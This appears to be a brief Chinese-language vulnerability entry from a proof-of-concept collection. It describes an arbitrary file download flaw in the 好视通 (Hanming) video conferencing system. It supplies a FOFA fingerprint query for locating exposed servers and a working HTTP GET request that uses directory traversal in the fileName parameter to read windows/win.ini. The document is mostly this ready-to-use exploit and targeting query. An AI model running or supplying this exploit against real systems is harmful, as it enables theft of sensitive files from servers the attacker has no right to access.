 # 银澎云计算 好视通视频会议系统 任意文件下载

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息。

fofa：

```
app="Hanming-Video-Conferencing"
```

poc：

```bash
GET /register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
```

ref：

https://mp.weixin.qq.com/s/F-M21PT0xn9QOuwoC8llKA